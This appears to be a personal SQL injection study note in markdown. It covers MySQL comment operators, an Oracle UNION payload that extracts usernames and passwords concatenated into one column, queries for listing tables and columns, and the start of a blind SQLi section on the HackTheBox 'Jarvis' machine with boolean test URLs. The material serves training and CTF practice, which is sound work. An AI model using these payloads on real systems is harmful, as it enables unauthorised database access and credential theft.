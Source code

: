 
Beyond SQLi: Obfuscate and Bypass - https://www.exploit-db.com/papers/17934/

AND, OR operators AND = && OR = ||

Comment operator « Mysql

```
--  	
#  
/**/  
```

### Retrieving multiple values within a single column STRING CONCATENATION

In the preceding example, suppose instead that the query only returns a single column.

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:

```
' UNION SELECT username || '~' || password FROM users--
```

This uses the double-pipe sequence || which is a string concatenation operator on Oracle. The injected query concatenates together the values of the username and password fields, separated by the ~ character.

## Examining the database in SQL injection attacks

### ORACLE

On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all_tables:

SELECT * FROM all_tables

And you can list columns by querying all_tab_columns:

SELECT * FROM all_tab_columns WHERE table_name = ‘USERS’

# JARVIS CASE BLIND SQLI

---

## identifing

We detect it with:


```
http://jarvis.htb/room.php?cod=6 and 1=1
http://jarvis.htb/room.php?cod=6 and 1=2
```
